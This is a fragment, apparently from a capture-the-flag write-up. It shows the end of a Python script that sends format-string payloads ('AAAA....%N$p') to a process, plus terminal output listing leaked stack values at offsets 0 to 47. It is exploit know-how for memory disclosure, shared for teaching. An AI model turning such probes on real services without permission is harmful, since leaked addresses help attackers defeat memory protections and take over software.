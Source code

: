 ```python

		proc.sendline(payload)
		proc.recvline()
		res = proc.recvline().split(b' ')[1]
		print("%s - %s"%(_,res))
		proc.close()

Dump_stack(True)
```

```bash
root@DESKTOP-HNQJECB: /c
➜   python3 writeup.py
 [+] Leaking all the Stack ...

0 - b'AAAA....%0$p'
1 - b'AAAA....0x7ffea4af1bd0'
2 - b'AAAA....(nil)'
3 - b'AAAA....(nil)'
4 - b'AAAA....0xc'
5 - b'AAAA....0xffffffffffffff88'
6 - b'AAAA....0x2e2e2e2e41414141'
7 - b'AAAA....0x70243725'
8 - b'AAAA....(nil)'
9 - b'AAAA....(nil)'
10 - b'AAAA....(nil)'
11 - b'AAAA....(nil)'
12 - b'AAAA....(nil)'
13 - b'AAAA....(nil)'
14 - b'AAAA....(nil)'
15 - b'AAAA....(nil)'
16 - b'AAAA....(nil)'
17 - b'AAAA....0x2009005'
18 - b'AAAA....0x7ffe2116c788'
19 - b'AAAA....0xb'
20 - b'AAAA....0x1'
21 - b'AAAA....(nil)'
22 - b'AAAA....0x2009005'
23 - b'AAAA....0x7fbecbe9b6fe'
24 - b'AAAA....(nil)'
25 - b'AAAA....0x1800000'
26 - b'AAAA....0x800'
27 - b'AAAA....0x40'
28 - b'AAAA....0x8000'
29 - b'AAAA....0x8'
30 - b'AAAA....0x40'
31 - b'AAAA....0x40'
32 - b'AAAA....(nil)'
33 - b'AAAA....(nil)'
34 - b'AAAA....0x7fff92e37fd9'
35 - b'AAAA....(nil)'
36 - b'AAAA....(nil)'
37 - b'AAAA....(nil)'
38 - b'AAAA....(nil)'
39 - b'AAAA....(nil)'
40 - b'AAAA....(nil)'
41 - b'AAAA....(nil)'
42 - b'AAAA....(nil)'
43 - b'AAAA....0x5588e59d12c5'
44 - b'AAAA....(nil)'
45 - b'AAAA....0x56526d234280'
46 - b'AAAA....(nil)'
47 - b'AAAA....0x559eb6193090'
48 - b'AAAA....0x7ffc04377b40'
```